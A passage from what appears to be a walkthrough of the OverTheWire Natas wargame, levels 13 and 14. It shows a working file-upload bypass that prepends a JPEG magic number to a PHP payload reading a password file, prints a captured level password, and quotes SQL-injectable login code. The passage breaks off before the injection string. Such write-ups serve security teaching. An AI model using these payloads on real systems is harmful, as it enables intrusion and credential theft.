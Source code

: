 **exif_imagetype()** reads the first bytes of an image and checks its signature. If the signature is invalid, it returns False.

This type of check can be fooled by providing the specific magic number for the file in question. The signature for jpg files is the hex value 0xFFD8FFE0

``` plain
root@kali:~/Desktop# echo -e '\xFF\xD8\xFF\xE0' > pass.php
root@kali:~/Desktop# echo "<?echo(exec('cat /etc/natas_webpass/natas13'));?>" >> pass.php 
```

The upload process is the same (don't forget to modify the extension with Firebug or other tools). Then I went to the link and the password is  <code>Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1</code>. If you notice the weird looking characters ÿØÿà before it, it's because the text representation of the jpg magic number is also echoed back. The password starts after that

### Level 14

{% img center /images/overthewire/natas/natas14.png 'natas14' 'natas 14' %}

Looking at the code hints at what type of vulnerability can be exploited:

``` php
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?> 
```

No input sanitization = SQL injection! Moreover, we can get additional information by setting debug to True in the URL. For that, I also included the username and password fields in the URL: http://natas14.natas.labs.overthewire.org/index.php?debug=True&username=test&password=pass

And now there was a message showing the query that was run on the backend:

``` plain
 Executing query: SELECT * from users where username="test" and password="pass"
Access denied!
```

After seeing how the query looks like, I used the following injection string to fool the database:
